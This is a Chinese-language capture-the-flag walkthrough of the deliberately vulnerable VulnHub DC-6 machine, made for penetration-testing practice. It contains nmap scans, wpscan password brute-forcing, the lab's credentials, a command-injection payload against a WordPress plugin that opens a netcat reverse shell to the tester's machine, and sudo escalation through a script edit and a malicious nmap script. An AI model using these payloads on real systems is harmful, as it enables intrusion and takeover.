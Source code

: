 # DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/2.png)

一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/3.jpg)

按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/4.png)

发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/5.png)

跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/6.png)

成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/7.png)

www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/8.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/9.png)

可以，直接给了我 graham 账号密码,登上去,然后继续查看

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/10.png)

看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/11.png)

巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/12.png)

切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/13.png)

看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/14.png)

提权成功,感谢靶机作者 @DCUA7
